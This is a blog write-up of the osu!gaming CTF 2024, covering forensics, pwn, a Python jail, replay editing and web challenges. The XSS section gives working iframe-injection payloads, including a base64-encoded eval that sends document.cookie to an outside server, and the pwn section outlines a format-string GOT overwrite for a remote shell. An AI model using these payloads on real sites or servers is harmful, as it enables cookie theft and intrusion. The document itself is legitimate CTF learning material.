






<!--[title|osu!gaming CTF 2024]-->
<!--[description|I was not prepared...]-->
<!--[author|Lena]-->
<!--[timestamp|1709486595]-->
<!--[image|osu-gaming-ctf-2024/logo.png]-->
<!--[image-alt|osu!gaming CTF 2024 banner]-->
<!--[tag|ctf]-->
<!--[tag|osu!]-->
<!--[tag|xss]-->
<!--[tag|pwn]-->

A few days ago, on the osu!dev discord server, i came across a [link](https://ctf.osugaming.lol/) that looked very weird at first.

> osu!gaming CTF 2024
>
> A unique and light-hearted capture-the-flag competition that merges the world of cybersecurity with the popular rhythm game osu!

I was quite puzzled, but after opening the URL and seeing it was sponsored by peppy himself, i wanted to go deeper.

After joining the discord server, i was surprised by the amount of activity and people behind it.

I was absolutely not prepared in the slightest for a CTF, and did not have a team, but i managed to team up with [peterfab](https://peterfab.com/) to at least form a duo.

This wasn't the best, as this CTF had an unlimited team size, but it made for a nice challenge.

Then, (roughly 48 hours ago) the CTF started.

## Infiltrating the OSU! (I, II, III)

The first few challenges were quite simple, but my favorite of these definitely was `misc/Infiltrating the OSU! (I)`

It read the following:

> Let's inflitrate osu!
> Please send me a link of the above photo under the domain `assets.ppy.sh`

The first one was quite trivial, and with a little digging you can see that user banners are uploaded under the `assets.ppy.sh` domain.



The second one was trickier:

> Please send me a link of the above photo under the domain `i.ppy.sh`

osu!'s "me!" section allows for customization using [`BBCode`](https://en.wikipedia.org/wiki/BBCode), including custom images.

Something not noticeable at first glance though, is that [`osu-web`](https://github.com/ppy/osu-web) caches/hosts any images linked this way, keeping them under the `i.ppy.sh` domain, just as the challenge asked for.

Another possible way of solving this was by creating a [forum post](https://osu.ppy.sh/community/forums), as it supports BBCode as well.

The third one was the hardest, so much so that ***only 14 teams managed to solve it***.

> Please send me a link of the above photo under the domain `osu.ppy.sh`

This third challenge hinged on a little known feature among new players, that has been used pretty much since [Bancho](https://osu.ppy.sh/wiki/en/Bancho_%28server%29)
 became a thing.

The game client has the ability to share screenshots, hosted on the osu! web infrastructure. At the time, all the screenshots got hosted under the `https://osu.ppy.sh/ss/` URL, and to retain backwards compatibility has been kept that way.

Once i remembered this fact, we  had to find a way to send a custom image as though it was a screenshot from the game client. A few minutes later, after fiddling with [`mitmproxy`](https://mitmproxy.org/) in chat for way longer than i'd like to admit, my teammate got the image up, and grabbed the flag (as i didn't have the legacy client installed).



We actually were the second team to solve this challenge, and i was really really happy!

## Forensics

The first challenge i started in forensics was `nathan-on-osu`. It read the following:

> Here's an old screenshot of chat logs between sahuang and Nathan on hollow's Windows machine, but a crucial part of the conversation seems to be cropped out... Can you help to recover the flag from the future?

Key point here being that the image is a screenshot, and that it had been taken on Windows.

I actually already knew about this (patched) bug, also known as [`aCropalypse`](https://acropalypse.app) (CVE-2023-21036, ***CVE-2023-28303***).

Essentially, in vulnerable apps, cropping an image didn't actually remove the image data from the file, it simply changed its size.

This means that it is possible to recover image data that has been "cropped out", just by knowing the dimensions of the original image.

The provided screenshot was this:


The image crops off just as the flag is written, such that it's impossible to retrieve the flag like this.

But, after fiddling with various tools and resolutions, we managed to get a somewhat readable picture. Others have managed to get better output images, but the flag could be read like this as well, so in the end it didn't really matter.



Then, as my teammate went on to work on cryptography stuff, my PC decided i had to take a break.

## No space left on device (errno 28)

I was ready to tackle a few more challenges, but i was met with the aforementioned error.

Given my machine has a small 120GB SSD installed, i'm quite used to running out of space.

Running `df` though, something looked rather odd.


My boot disk was sitting at 91%! how was it possible to not have any more space?

As it [turns out](https://archive.kernel.org/oldwiki/btrfs.wiki.kernel.org/index.php/FAQ.html#Help.21_Btrfs_claims_I.27m_out_of_space.2C_but_it_looks_like_I_should_have_lots_left.21), btrfs holds data in three main "pools": `data`, `metadata` and `system`.

If space in either of the 3 pools runs out, the disk becomes read-only, regardless of the capacity of the other pools.

To check the capacity of the pools, you just need to run `btrfs file usage /`.

```
Data,single: Size:103.76GiB, Used:92.67GiB (89.31%)
   /dev/sdb2    103.76GiB

Metadata,DUP: Size:3.51GiB, Used:3.08GiB (87.88%)
   /dev/sdb2      7.01GiB

System,DUP: Size:8.00MiB, Used:16.00KiB (0.20%)
   /dev/sdb2     16.00MiB
```

As you can see, there was less than 512MiB remaining in the metadata pool, and btrfs couldn't allocate any more.

### How do we fix this though?

Usually, a simple `btrfs balance` can fix the issue, but this definitely wasn't the case.

```
# btrfs balance start -musage=0 /
ERROR: error during balancing '/': No space left on device
```

As it turns out, the only fix in this case requires adding another temporary disk to the filesystem.

```
# btrfs device add /dev/sdc /

# btrfs balance start -musage=0 /

# btrfs device delete /dev/sdc /
```

In case the last step fails, (as it did to me), you'll need to remove some stuff from your disk in order to allow it to remove the temporary disk.

This process took about 6h, during which i could not make any progress whatsoever on the CTF. Additionally, during a lot of the troubleshooting, my `dmesg` started spewing a lot of scary stack traces about `kworker`s crashing, but in the end i was able to recover my disk without any data loss. Phew!

## No disk no life

After having solved all my filesystem problems, i wanted to try doing some binary exploitation.

The first pwn challenge, `pwn/betterthanu` looked interesting.

> I bet you can't beat a single one of my plays!

> `nc chal.osugaming.lol 7279`


In addition, the source code and binary of this challenge were provided.

Let's take a look:

```c
// challenge.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

FILE *flag_file;
char flag[100];

int main(void) {
    unsigned int pp;
    unsigned long my_pp;
    char buf[16];

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("How much pp did you get? ");
    fgets(buf, 100, stdin);
    pp = atoi(buf);

    my_pp = pp + 1;

    printf("Any last words?\n");
    fgets(buf, 100, stdin);

    if (pp <= my_pp) {
        printf("Ha! I got %d\n", my_pp);
        printf("Maybe you'll beat me next time\n");
    } else {
        printf("What??? how did you beat me??\n");
        printf("Hmm... I'll consider giving you the flag\n");

        if (pp == 727) {
            printf("Wait, you got %d pp?\n", pp);
            printf("You can't possibly be an NPC! Here, have the flag: ");

            flag_file = fopen("flag.txt", "r");
            fgets(flag, sizeof(flag), flag_file);
            printf("%s\n", flag);
        } else {
            printf("Just kidding!\n");
        }
    }

    return 0;
}

```
The makefile was also provided, which immediately showed what we needed to do (a stack overflow).

```makefile
# Makefile
CC = gcc
CFLAGS = -fno-stack-protector -w -g

VPATH = src

.PHONY: clean

challenge: challenge.c

clean:
	rm -f *.o challenge
```

We can immediately see that in the code there's a 16 character buffer, that gets filled in with our input:
```c
char buf[16];
fgets(buf, 100, stdin);
```
However, the program accepts up to 100 characters of input. If we enter more than the buffer can contain, we will overwrite other variables on the stack.

For more information on stack overflow, there are lots of resources online, such as [this one](https://www.youtube.com/watch?v=T03idxny9jE).

The program asks us how many performance points (`pp`) we got, and asks us for "any last words".

It then adds one, storing it in `my_pp`, to then tell us that we didn't beat the author's play.

While there could have been an integer under/overflow here, the objective is to set `pp` to 727, and overflow the buffer on the stack, to set `my_pp` to a lower value.

To do this, we need to enter 16 characters of input, and the null terminator will do the rest.


## Free the snake

Lots of CTFs have a "python jail" challenge, where you need to read the flag from the disk using a very constrained python remote environment.

This one was no exception, containing one of the hardest python jails i've seen, if not the hardest.

```py
backup_len = len
backup_eval = eval
backup_print = print
backup_input = input
backup_all = all
backup_ord = ord

def rescued_osu(input):
    return input.count('o') == 1 and input.count('s') == 1 and input.count('u') == 1

def caught_by_guards(input):
    return '[' in input or ']' in input or '{' in input or '}' in input or not backup_all(0 <= backup_ord(c) <= 255 for c in input)

globals()['__builtins__'].__dict__.clear()

input = backup_input()
if caught_by_guards(input) or not rescued_osu(input):
    backup_print('[You failed to break the jail]')
else:
    backup_print(eval(input,{},{}))


```

Essentially, we have to read the file 'flag.txt' in python without using square or curly brackets, without using any builtins, all while our input must contain one 'o', one 's' and one 'u'.

While i did understand the basic concepts though, i'm not familiar with python internals, so after about two hours of trial and error, i had to let it go. If you want the solution to this one, [this writeup](https://github.com/SuperStormer/writeups/tree/master/osugamingctf_2024/osujail) has it.

I really enjoyed doing this challenge, and i learned a great deal about python internals.

## Day 2

The second day, some new challenges appeared, such as `forensics/volatile-map`.

> Hey osu! players, our SOC team was informed that a group of spies from Mai Corp is trying to sabotage our infrastructure via their secret map in osu!.

> We were able to break into their rendezvous, but they noticed we were stealing their data and they corrupted them in time. Fortunately, we managed to acquire a full memory dump from one of their machines.

> Can you help us investigate what they were trying to do?

Before going to sleep for a few hours, i downloaded the memory dump and got to work.

Given that this is a 4GiB memory dump, we're definitely gonna need to search for strings.

This is a standard Windows memory dump, as can be seen by the file extension (.dmp), and by the header:



The description says this memory dump has been taken while running osu!, and sure enough, if we do a string search for 'osu!', the first result is at address `0x0098D788`, with the string 'osu!.exe'.

If we look closer, we can actually spot that this section starts at address `0x098D600`, and it looks like it contains information about all the running processes on the system.

We can see `smss.exe`, `LogonUI.exe`, `svchost.exe` and `dllhost.exe` all core Windows processes, along with many others.



If we keep looking, a few results later, at address '0x087BD79F' we can see the following JSON (pretty printed), this time containing a path:

```json
[
    {
        "application": "C:\\Users\\Administrator\\AppData\\Local\\osu!\\osu!.exe",
        "platform": "windows_win32"
    },
    {
        "application": "C:\\Users\\Administrator\\AppData\\Local\\osu!\\osu!.exe",
        "platform": "packageId"
    },
    {
        "application": "",
        "platform": "alternateId"
    }
]
```

We're on the right track. We just need to find the memory region that osu! is in.

After looking at a lot more results, i found the following path, that is exactly in the format osu! stores beatmaps, at address '0x1D0A8DFC':

'`C:\Users\Administrator\AppData\Local\osu!\Songs\beatmap-638448119315467561-ambient-relaxing-music-for-you-15969\osu{ - 686964655f6e (sahuang) [X3NlZWVlZWVlZWVla30=].osu`'

There are a lot of seemingly random numbers and characters, but what looked interesting was that the difficulty name (in square brackets).

It is made up of seemingly random characters, and it ends with a '=' character. This is pretty standard for [Base64](https://en.wikipedia.org/wiki/Base64) encoded strings, because when the input length isn't a multiple of 4, padding is added (one or two '=' characters).

Sure enough, after using [CyberChef](https://gchq.github.io/CyberChef/) to try decoding it from base64, we get the following string: '`_seeeeeeeeeek}`'.

This looks right, since the format for flags is '`osu{...}`'. The beginning of the flag is missing though, so let's try analyzing the sequence of hexadecimal numbers preceding it: `686964655f6e`

The numbers are mostly in the 60-70 range, which is the ASCII region for lowercase latin letters.

CyberChef also recognizes this format immediately, telling us that decoding this hexstring as ASCII, we get '`hide_n`'.

The complete flag is '`osu{hide_n_seeeeeeeeeek}`'!

## Streaming

A good next challenge is `web/streaming-vs`, where you have to time your inputs to the millisecond alternating your osu! keys.

It reads:

> how good are you at streaming? i made a site to find out! you can even play with friends, and challenge the goat himself

> https://stream-vs.web.osugaming.lol/

On this page, a randomly selected song will play, and you'll have to send to the server perfectly timed inputs.

My first approach was simulating a virtual keyboard using evdev, with the following code (created by looking at this [example](https://github.com/emberian/evdev/blob/main/examples/virtual_keyboard.rs)):

```rs
    // initialization steps not shown
    let code1 = KeyCode::KEY_X.code();
    let code2 = KeyCode::KEY_Z.code();

    println!("Waiting for Ctrl-C...");

    println!("Enter BPM:");
    let mut bpm_input = String::new();
    std::io::stdin().read_line(&mut bpm_input).expect("Failed to read line");
    let bpm_to_click: f32 = bpm_input.trim().parse().expect("Invalid input");
    let time_per_beat_ms = (60.0 / bpm_to_click * 250.0) as u64;
    println!("{}", time_per_beat_ms);
    let mut code;
    let mut current = true;

    loop {
        code = if current {code1} else {code2};
        // this guarantees a key event
        let down_event = *KeyEvent::new(KeyCode(code), 1);
        device.emit(&[down_event]).unwrap();
        sleep(Duration::from_millis(1));
        let up_event = InputEvent::new(EventType::KEY.0, code, 0);
        device.emit(&[up_event]).unwrap();
        sleep(Duration::from_millis(time_per_beat_ms));
        println!("{}", current);
        current = !current;
    }
```

The problem here, is jitter. The bpm fluctuates a lot, and generally doesn't work.

The actual solution here, is to write a program that talks to the websocket, and pretends to be the user sending perfectly timed inputs.

Unfortunately though, being in a duo, i did not have enough time to write it, as this was a very long task, so i had to leave it be, unfortunately.

## Replay editing

The next challenges are `osu/sanity-check-2` and `osu/sanity-check-3`, and they can be solved both in a similiar way.

The former says:

> [Gawr Gura - Kyoufuu All Back](https://osu.ppy.sh/beatmapsets/2143550)

> Your task is to play [A](https://osu.ppy.sh/beatmapsets/2143550#osu/4512653) difficulty and get at least 70% accuracy in std mode. Submit your replay osr file to server in base64 format.

> `nc chal.osugaming.lol 7277`

It then links to various useful tools to interact with the server.

The latter instead says:

> [Gawr Gura - Kyoufuu All Back](https://osu.ppy.sh/beatmapsets/2143550)

> Alright, it's gaming time. SS the top diff and submit your replay to the server in base64 format. (Play nomod, please don't use mods like DT or HR)

> `nc chal.osugaming.lol 7278`

If we find a way to make a perfect replay for one difficulty, we can then do the same for the other one.

While the challenge itself linked to various useful tools, i thought: "there's no better replay editor than the game itself".

After cloning the [osu!](https://github.com/ppy/osu) client, and a bit of search&replace, i was able to do the following:

- Edit the Relax and Autopilot mods, so that they can both be used at the same time
- Remove all mods from the replay, so that it appears like a replay played without mods
- Make all perfect judgements

First we make Relax compatible with Autopilot:
```cs
// OsuModAutopilot.cs
public override Type[] IncompatibleMods => new[]
{
    typeof(OsuModSpunOut),
    typeof(ModRelax), // Remove this line
    typeof(ModAutoplay),
    typeof(OsuModMagnetised),
    typeof(OsuModRepel),
    typeof(ModTouchDevice)
};
```
Then we make, for example all sliders achieve perfect judgements
```diff
// DrawableSlider.cs
ApplyResult(static (r, hitObject) =>
{
-    int totalTicks = hitObject.NestedHitObjects.Count;
-    int hitTicks = hitObject.NestedHitObjects.Count(h => h.IsHit);
 
-    if (hitTicks == totalTicks)
        r.Type = HitResult.Great;
-    else if (hitTicks == 0)
-        r.Type = HitResult.Miss;
-    else
-    {
-        double hitFraction = (double)hitTicks / totalTicks;
-        r.Type = hitFraction >= 0.5 ? HitResult.Ok : HitResult.Meh;
-    }
});
```
(this section does not include all the changed files)

After we're done with all our edits, we launch the game client (in development mode), and play the map with Relax + Autopilot.

This creates replay files we can export, and then submit as base64 to get our flags.

## Miss analyzer

This challenge also features osu! replay files, but it's in the pwn category.

It reads the following:

> I made a program to analyze the misses in my replays!

> nc chal.osugaming.lol 7273

It has an attatchment containing a docker environment, with 3 interesting files: `libc.so.6` (the C standard library), `analyzer` and `flag.txt`, containing a dummy flag.

This is the program running on the remote server, and we have to get the flag from the file.

To start, let's run `file` on our program

```
$ file analyzer
analyzer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=76537bf2e0ba5b842b9225797307104f7c5fa19c, for GNU/Linux 3.2.0, not stripped
```

The important part is that at the end, it says 'not stripped'. This means we'll have a much easier time figuring out what this program does.


Time to fire up Ghidra and see what we get.

```c
undefined8 main(void)

{
  char *pcVar1;
  char cVar2;
  short sVar3;
  __ssize_t _Var4;
  size_t sVar5;
  undefined8 uVar6;
  long in_FS_OFFSET;
  char *local_150;
  size_t local_148;
  void *local_140;
  long local_138;
  void *local_130;
  char local_128 [264];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  while( true ) {
    puts("Submit replay as hex (use xxd -p -c0 replay.osr | ./analyzer):");
    local_150 = (char *)0x0;
    local_148 = 0;
    _Var4 = getline(&local_150,&local_148,stdin);
    pcVar1 = local_150;
    if (_Var4 < 1) break;
    sVar5 = strcspn(local_150,"\n");
    pcVar1[sVar5] = '\0';
    if (*local_150 == '\0') break;
    local_138 = hexs2bin(local_150,&local_140);
    local_130 = local_140;
    if (local_138 == 0) {
      puts("Error: failed to decode hex");
      uVar6 = 1;
      goto LAB_00401a32;
    }
    puts("\n=~= miss-analyzer =~=");
    cVar2 = read_byte(&local_130,&local_138);
    if (cVar2 == '\0') {
      puts("Mode: osu!");
    }
    else if (cVar2 == '\x01') {
      puts("Mode: osu!taiko");
    }
    else if (cVar2 == '\x02') {
      puts("Mode: osu!catch");
    }
    else if (cVar2 == '\x03') {
      puts("Mode: osu!mania");
    }
    consume_bytes(&local_130,&local_138,4);
    read_string(&local_130,&local_138,local_128,0xff);
    printf("Hash: %s\n",local_128);
    read_string(&local_130,&local_138,local_128,0xff);
    printf("Player name: ");
    printf(local_128);
    putchar(10);
    read_string(&local_130,&local_138,local_128,0xff);
    consume_bytes(&local_130,&local_138,10);
    sVar3 = read_short(&local_130,&local_138);
    printf("Miss count: %d\n",(ulong)(uint)(int)sVar3);
    if (sVar3 == 0) {
      puts("You didn\'t miss!");
    }
    else {
      puts("Yep, looks like you missed.");
    }
    puts("=~=~=~=~=~=~=~=~=~=~=\n");
    free(local_150);
    free(local_140);
  }
  uVar6 = 0;
LAB_00401a32:
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar6;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Ignore all the unknown variable names, and focus on the functions:

The thing that pops out immediately is that at line 59, there's an exposed `printf()`:

```c
printf("Player name: ");
printf(local_128);
```
The `printf()` has our user-supplied input on the first parameter, which allows us to use custom format specifiers.

This is a common vulnerability, which grants us a read and write primitive.

To exploit this, we need to create a replay file that has set as the player name a custom payload that will then run on the server.

This replay, for example will read 12 times from the stack and print it:



We need to overwrite the address of a known function in memory, so that we can then replace it with `system("/bin/sh")`, to open a remote shell and grab the flag.

This is a very big topic, and there are lots of [resources](https://github.com/utisss/foreverctf-writeups/blob/master/pwn-printf-got.md) way better than this blog post to learn it.

- Find a libc address (the return address of the `main()` function, pointing into `__start()`
- Find the base address of libc by finding the offset of `__start()` in our `libc.so.6` and subtracting it.
- Find the address of `system()`
- Replace the GOT entry for `printf()` to be the one of `system()`, so that when the program calls `printf()`, it will call `system()` instead.

Unfortunately i wasn't able to complete this in time, as i was in a duo, but it was really fun nonetheless.

## XSS, at last

In hindsight i should have done this earlier, as i was in a bit of a time crunch, but i had a lot of fun here.

The challenge `web/profile-page` says:

> customize your osu! profile page!

> https://profile-page.web.osugaming.lol/

> https://adminbot.web.osugaming.lol/profile-page

It also features a download for all the code that is being ran remotely.

There main focus is the javascript code.

A quick look at the adminbot code reveals that it:
- Sets the flag to the cookie header
- Goes to the profile page

```js
let page = await browser.newPage();
await page.goto(SITE, { timeout: 3000, waitUntil: 'domcontentloaded' });

await page.evaluate((flag) => {
	document.cookie = "flag=" + flag + "; secure; path=/";
}, FLAG);

```

We'll need to somehow exfiltrate the cookie from the server.

Looking at the profile page code instead, reveals that we can edit the page with BBCode, and that our input gets sanitized.

However, after sanitization there's another step, that may allow us to send custom scripts to the browser.

```js
const purify = DOMPurify(window);
const renderBBCode = (data) => {
    data = data.replaceAll(/\[b\](.+?)\[\/b\]/g, '<strong>$1</strong>');
    data = data.replaceAll(/\[i\](.+?)\[\/i\]/g, '<i>$1</i>');
    data = data.replaceAll(/\[u\](.+?)\[\/u\]/g, '<u>$1</u>');
    data = data.replaceAll(/\[strike\](.+?)\[\/strike\]/g, '<strike>$1</strike>');
    data = data.replaceAll(/\[color=#([0-9a-f]{6})\](.+?)\[\/color\]/g, '<span style="color: #$1">$2</span>');
    data = data.replaceAll(/\[size=(\d+)\](.+?)\[\/size\]/g, '<span style="font-size: $1px">$2</span>');
    data = data.replaceAll(/\[url=(.+?)\](.+?)\[\/url\]/g, '<a href="$1">$2</a>');
    data = data.replaceAll(/\[img\](.+?)\[\/img\]/g, '');
    return data;
};
const renderBio = (data) => {
    const html = renderBBCode(data);
    const sanitized = purify.sanitize(html);
    // do this after sanitization because otherwise iframe will be removed
    return sanitized.replaceAll(
        /\[youtube\](.+?)\[\/youtube\]/g,
        '<iframe sandbox="allow-scripts" width="640px" height="480px" src="https://www.youtube.com/embed/$1" frameborder="0" allowfullscreen></iframe>'
    );
};

```

With [cURL](https://curl.se/), we can send a request to the `/update` endpoint (with the correct CSRF token) to set the bio to a custom value.

With this, we need to craft a payload using the potentially vulnerable `youtube` BBCode element.

If we just set it to a double quote, we can see that the string doesn't get sanitized properly. This means we can inject a custom event handler in the `<iframe>`

```
bio=[youtube]"[/youtube]>
```

If we try this:

```
bio=[youtube]\"onload=alert(1)>[/youtube]
```

We can also see that the browser creates a popup window. Perfect.

We now need to exfiltrate the cookie, by sending a web request to a server we control.

This should work, right?

```
bio=[youtube]\"onload=fetch('https://nihil.gay/${document.cookie}')>[/youtube]
```

Apparently, the curly brackets get sanitized out, and we also cannot use any other sort of string concatenation here.

A quick workaround is to Base64-encode our payload, and then evaluate it, thus being able to avoid the sanitizer.

```
[youtube]\"onload=eval(atob('ZmV0Y2goJ2h0dHBzOi8vbmloaWwuZ2F5LycgKyBkb2N1bWVudC5jb29raWUp'))>[/youtube]
```

If we now use the adminbot and go check the server logs, we can see that a new HTTP request has been made, containing our flag:

```
[03/Mar/2024:13:04:48.870] GET https://nihil.gay/flag=osu%7Bbut_all_i_w4nted_to_do_was_w4tch_y0utube...%7D HTTP/2.0 404
```

